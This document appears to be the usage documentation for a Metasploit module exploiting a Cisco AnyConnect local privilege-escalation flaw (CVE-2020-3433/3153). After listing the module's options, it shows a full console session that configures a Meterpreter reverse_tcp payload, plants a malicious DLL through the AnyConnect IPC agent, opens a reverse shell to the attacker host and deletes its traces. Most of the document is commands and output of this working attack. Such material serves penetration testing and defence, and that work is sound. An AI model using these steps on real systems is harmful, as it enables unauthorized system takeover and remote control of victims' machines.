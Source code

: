 ## Options
### INSTALL_PATH
  Set Cisco AnyConnect Secure Mobility Client installation path (where
  `vpndownloader.exe`should be found). It will be automatically detectedif not set.

### CVE
  Set the CVE to use (CVE-2020-3153 or CVE-2020-3433). Default: CVE-2020-3433.

### ForceExploit

  Set this to `true` to override the `check` result during exploitation.

## Scenarios

### Windows 10 version 1909 (x64) with AnyConnect 4.8.3052 - CVE-2020-3433

```
msf5 exploit(windows/local/anyconnect_lpe) > set SESSION 1
SESSION => 1
msf5 exploit(windows/local/anyconnect_lpe) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/anyconnect_lpe) > set lhost 192.168.1.24
lhost => 192.168.1.24
msf5 exploit(windows/local/anyconnect_lpe) > set lport 4445
lport => 4445
msf5 exploit(windows/local/anyconnect_lpe) > set verbose true
verbose => true
msf5 exploit(windows/local/anyconnect_lpe) > set CVE CVE-2020-3433
CVE => CVE-2020-3433
msf5 exploit(windows/local/anyconnect_lpe) > check 

[*] Try to detect installation path...
[*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
[*] The target appears to be vulnerable. Cisco AnyConnect version 4.8.3052.0.0 < 4.9.00086 (CVE-2020-3433).
msf5 exploit(windows/local/anyconnect_lpe) > run

[*] Started reverse TCP handler on 192.168.1.24:4445 
[*] Try to detect installation path...
[*] Found vpndownloader.exe path: 'C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe'
[*] The target appears to be vulnerable. Cisco AnyConnect version 4.8.3052.0.0 < 4.9.00086 (CVE-2020-3433).
[*] "-ipc" argument needed
[*] Creating directory C:\Users\ATGO\AppData\Local\Temp\16Nkpr
[*] Meterpreter Session
[*] C:\Users\ATGO\AppData\Local\Temp\16Nkpr created
[*] Writing the payload to C:\Users\ATGO\AppData\Local\Temp\16Nkpr\dbghelp.dll
[*] IPC Command: "CAC-nc-install        -ipc=76731      C:\Program Files (x86)\Cisco\Cisco AnyConnect Secure Mobility Client\vpndownloader.exe     C:\Users\ATGO\AppData\Local\Temp\16Nkpr\dbghelp.dll"
[*] Connecting to the AnyConnect agent on 127.0.0.1:62522
[*] Send the encoded IPC command (size = 288 bytes)
[*] Sending stage (176195 bytes) to 192.168.1.20
[*] Meterpreter session 3 opened (192.168.1.24:4445 -> 192.168.1.20:44712) at 2020-09-01 14:12:05 +0200
[+] Deleted C:\Users\ATGO\AppData\Local\Temp\16Nkpr\dbghelp.dll
[+] Deleted C:\Users\ATGO\AppData\Local\Temp\16Nkpr
[*] Shutdown the socket

```
